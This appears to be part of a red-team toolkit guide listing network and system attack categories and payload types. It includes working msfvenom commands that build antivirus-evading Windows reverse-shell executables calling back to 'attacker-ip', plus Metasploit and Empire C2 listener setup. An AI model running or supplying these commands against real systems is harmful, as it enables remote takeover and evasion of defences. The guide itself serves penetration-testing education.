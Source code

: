 ### Network-Based Attacks
- **Buffer Overflows**: Memory corruption exploitation
- **Remote Code Execution**: Direct system compromise
- **Man-in-the-Middle**: Traffic interception and manipulation
- **DNS Poisoning**: Domain name resolution attacks
- **ARP Spoofing**: Layer 2 network attacks

### System-Level Attacks
- **Privilege Escalation**: Vertical and horizontal escalation
- **Credential Harvesting**: Password and token extraction
- **Process Injection**: Code injection into running processes
- **DLL Hijacking**: Dynamic library manipulation
- **Registry Manipulation**: Windows registry exploitation

## 🔧 Payload Development

### Payload Types
- **Staged Payloads**: Multi-stage payload delivery
- **Stageless Payloads**: Single-stage payload execution
- **Reflective DLL**: In-memory DLL loading
- **Shellcode**: Assembly-level payload code
- **Fileless Payloads**: Memory-only execution

### Evasion Techniques
```bash
# Antivirus evasion
msfvenom -p windows/meterpreter/reverse_tcp --encrypt xor --encrypt-key mykey \
         LHOST=attacker-ip LPORT=4444 -f exe -o payload.exe

# Encoding and obfuscation
msfvenom -p windows/shell_reverse_tcp LHOST=attacker-ip LPORT=4444 \
         -e x86/shikata_ga_nai -i 10 -f exe -o encoded_payload.exe
```

### Custom Payload Development
- C/C++ native payloads
- PowerShell-based payloads
- Python payload frameworks
- Go-based payload development
- Rust payload implementation

## 🌐 Command and Control (C2)

### C2 Infrastructure Setup
```bash
# Metasploit multi/handler
msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; 
                  set LHOST attacker-ip; set LPORT 4444; exploit"

# Empire C2 setup
./empire --rest --username admin --password password123
```
